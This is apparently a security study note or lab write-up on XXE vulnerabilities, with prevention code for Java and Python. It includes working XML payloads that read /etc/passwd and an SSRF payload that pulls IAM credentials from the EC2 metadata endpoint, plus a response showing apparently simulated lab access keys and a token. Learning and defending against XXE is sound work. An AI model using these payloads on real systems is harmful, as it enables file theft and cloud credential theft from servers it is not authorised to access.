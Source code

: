 ##  **XXE (XML External Entity) vulnerability**
XXE (XML External Entity) vulnerability is a security flaw that occurs when an application processes XML input containing references to external entities. If not properly handled, this can lead to **data exposure, file retrieval, SSRF (Server-Side Request Forgery), and even remote code execution** in some cases.  

---

##  **How XXE Works**
1. **XML Processing**: The application parses user-supplied XML.
2. **External Entity Declaration**: If the XML parser is configured to allow external entities (`DOCTYPE` and `SYSTEM`), attackers can inject references to local or remote files.
3. **Data Exfiltration**: The attacker retrieves sensitive files (e.g., `/etc/passwd`) or triggers SSRF by forcing the server to make requests to internal services.

---

##  **Example of a Vulnerable XML**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<root>  
    <data>&xxe;</data>  
</root>
```
 If an application processes this XML, it will replace `&xxe;` with the contents of `/etc/passwd`, exposing sensitive system information.

## **case1: Exploiting XXE using external entities to retrieve files**
```Payload

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
    </stockCheck>
```    
## **case2: Exploiting XXE to perform SSRF attacks**
```secnerio: The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
  motive: obtains the server's IAM secret access key from the EC2 metadata endpoint.

payloads

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
</stockCheck>
```
Response:
            HTTP/2 400 Bad Request
            Content-Type: application/json; charset=utf-8
            X-Frame-Options: SAMEORIGIN
            Content-Length: 552
            "Invalid product ID: {
            "Code" : "Success",
            "LastUpdated" : "2025-03-11T08:19:31.312893341Z",
            "Type" : "AWS-HMAC",
            "AccessKeyId" : "w4CprEoDqP8HcOoLxq1l",
            "SecretAccessKey" : "iGY2bXKWVPmXrG1tllcM4B4pZCq5XivMtFxpbnhm",
            "Token" :                   "uqqU5kZR1JlvTBF85Eyn2aJDv6zEVFdntShz9zMpqtazw5AQrIkrNisng0DLy0GomI0uqbATyQwBUNw6Ey4YubP4CJnqQAoqO1Qd0lMkkVQPTgtREDUuQiNVAf0qzMUKRsXS7G9pdI6PBfm1g8V0wCNYSKW2YdkWSZaYsOqc4CmXWT4cE0znDrONJ2cN6NpPJCEAFmwO55NDqNnpuMRFovx8DUVs4QdCFDNdW4Vw0JVAQdtU5jsirgxMS4hK1Qkd",
  "Expiration" : "2031-03-10T08:19:31.312893341Z"
            }"
```
---

## 🛠 **Exploiting XXE**
- **File Disclosure**: Load system files using `file:///path/to/file`.
- **SSRF (Server-Side Request Forgery)**: Force the server to request internal/external resources (`http://internal-service/`).
- **Denial of Service (Billion Laughs Attack)**: Overload memory by nesting entities.
- **RCE (in rare cases)**: If the application allows interaction with system commands via an entity, remote code execution might be possible.

---

##  **How to Prevent XXE**
 **Disable DTD Processing** (External Entities):  
- In Java (DOM Parser):
  ```java
  DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
  dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  ```
- In Python (`lxml` parser):
  ```python
  from lxml import etree
  parser = etree.XMLParser(resolve_entities=False)
  ```

**Use Safe Parsers**: Choose modern, secure XML libraries that disable external entity resolution by default.  
**Input Validation**: Avoid accepting XML input unless necessary.  
**Use JSON Instead of XML**: JSON does not support external entities, reducing the risk of XXE.

## **Refrence** 
   
   https://rohitcoder.medium.com/comprehensive-guide-detecting-fixing-and-defending-against-xxe-attacks-in-python-and-java-e78691b4b918
   
   https://www.w3schools.com/xml/xml_dtd_intro.asp
   
---
